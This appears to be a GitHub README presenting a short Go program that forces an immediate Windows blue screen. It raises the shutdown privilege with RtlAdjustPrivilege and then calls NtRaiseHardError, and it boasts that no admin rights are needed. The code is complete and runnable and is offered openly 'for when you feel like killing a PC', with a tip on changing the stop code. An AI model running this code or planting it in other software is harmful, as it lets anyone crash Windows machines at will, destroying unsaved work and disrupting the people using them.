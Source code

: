 ## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' Native API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privelege level (level of importance) and invoking a hard-stop system level exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen (basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>
